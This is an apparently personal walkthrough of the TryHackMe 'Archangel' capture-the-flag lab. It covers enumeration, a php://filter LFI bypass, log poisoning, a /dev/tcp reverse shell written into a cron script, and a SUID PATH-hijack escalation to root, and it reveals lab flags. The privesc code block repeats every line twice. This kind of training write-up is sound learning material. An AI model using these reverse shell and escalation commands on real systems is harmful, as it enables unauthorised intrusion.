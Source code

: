 ```yaml
---

title: Walkthrough - Archangel
published: True
---
```


Boot2root, Web Exploitation, Privilege Escalation, LFI. A well known security solutions company seems to be doing some testing on their live machine. Best time to exploit it.

[https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)

* * *

## Get a shell

- nmap

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wavefire
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster scans

```shell
/pages                (Status: 301) [Size: 314] [--> http://10.10.100.253/pages/]
/images               (Status: 301) [Size: 315] [--> http://10.10.100.253/images/]
/flags                (Status: 301) [Size: 314] [--> http://10.10.100.253/flags/] 
/layout               (Status: 301) [Size: 315] [--> http://10.10.100.253/layout/]
```

**Find a different hostname**

![](/assets/archangel01.png)

- checking the source code of ``http://10.10.100.253`` we find ``support@mafialive.thm`` we can add this domain to the hosts file  to continue enumeration. After traveling there we find our first flag.

**Find flag 1**

![](/assets/archangel02.png)

**Look for a page under development**

- ``gobuster dir -u http://mafialive.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 -x php,txt --no-error``
- we find a page but we canty view the code in test.php have to find a way around this.
- ``curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`` using ``php://filter`` allows us to bypass the protection and ``convert.base64-encode/resource=`` lets us encode test.php as base64 lets see what we are working with

**Find flag 2**

```php
<?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

**Get a shell and find the user flag**

- the url must not contain ``../..`` but must contain ``/var/www/html/development_testing``
- so we need to use LFI Log Poisoning...having never attempted this before going to follow [this writeup](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d).
- we can setup php webserver with php reverse shell and get this over to the target machine by poisining the log file with thee user-agent.

- start by poising the logfile with the php payload in the user-agent string

![](/assets/archangel03.png)

- we get ``cmd=id HTTP/1.1" 200 997 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data) " ``
- now we can wget our reverse shell, then traverse to open up the reverse shell when we have our netcat listener setup.

* * * 

## What is the user flag?

![](/assets/archangel04.png)

* * * 

## What is the root flag?

- checking the ``/etc/crontab`` can see that we can move to archangel - ``echo "sh -i >& /dev/tcp/10.2.127.225/6670 0>&1" >> /opt/helloworld.sh``
- setup listener ``rlwrap nc -lvnp 6670``

![](/assets/archangel05.png)

- Now that we found user 2 flag we can continue escaliation to root.

- ``find / -perm -u=s -type f 2>/dev/null`` we can see that ``/home/archangel/secret/backup`` has a suid set
- checking out the backup file with ``strings`` we can see it runs ``cp`` but doesnt use a path so we can take advantage of this and leave a cp program in the directory for it to run.

```shell
cat > cp << EOF
cat > cp << EOF
#!/bin/bash
#!/bin/bash
/bin/bash -i
/bin/bash -i
EOF
EOF
chmod +x cp
chmod +x cp
export PATH=/home/archangel/secret:$PATH
export PATH=/home/archangel/secret:$PATH
./backup
./backup
id
id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
root@ubuntu:~/secret# 
```

- ``cat /root/root.txt``

* * * 

